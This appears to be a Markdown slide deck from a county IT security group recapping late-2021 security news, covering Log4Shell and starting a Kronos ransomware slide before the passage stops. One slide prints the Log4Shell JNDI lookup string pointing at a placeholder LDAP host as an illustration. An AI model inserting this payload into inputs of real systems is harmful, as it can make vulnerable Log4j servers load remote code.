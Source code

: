 # ICIT-SEC: 2022.01.05

## **ICYMI**

> All the news that's fit to hack...

https://icit.link/icymi

https://github.com/iowacountiesit/icit-sec.icymi




---

### What'd we miss? 2021-11 - 2021-12
<img src="https://image.cnbcfm.com/api/v1/image/105773511-marcusbuckinghamstressstatistic.00_02_54_14.still001.jpg?v=1551719350"
	style="height:400px; border-radius:15px;" />

--

No meeting in 2021-11, no ICYMI 2021-12.  So today we play a bit of catch-up.  Did anything security-wise happen in the past couple months? No particular order for next slides.

---

### 2021-12-09: Log4Shell (log4j 2)
<img src="https://www.lunasec.io/docs/img/log4shell-logo.png"
	style="height:400px; border-radius:15px;" />

--

https://en.wikipedia.org/wiki/Log4Shell

https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/

Holy crud, it's another supply chain *FAIL*.

--

```${jndi:ldap://example.com/file}```

* why? where? how? what?
* v2.14 RCE and *leaking*, v2.15.0-rc1 fixes 2021-12-06
* mitigation provided but can workaround
* lots of vendors still on v1.2 (older vuln applies)
* v2.16 had potential (vulns), v2.17 looking good
* vendor responses vary in shady-ness

--

https://www.darkreading.com/application-security/attackers-using-log4j-flaws-in-hands-on-keyboard-attacks-to-drop-reverse-shells

Initially, there was a flurry of searching and scanning and testing to find vulnerable products.  Now, actual attacks are underway.  Another tool on the belt for threat actors.

---

### 2021-12-11: Kronos Ransomware
<img src="https://ak.picdn.net/shutterstock/videos/1038858359/thumb/1.jpg"
	style="height:400px; border-radius:15px;" />

--

https://www.ukg.com/KPCupdates

```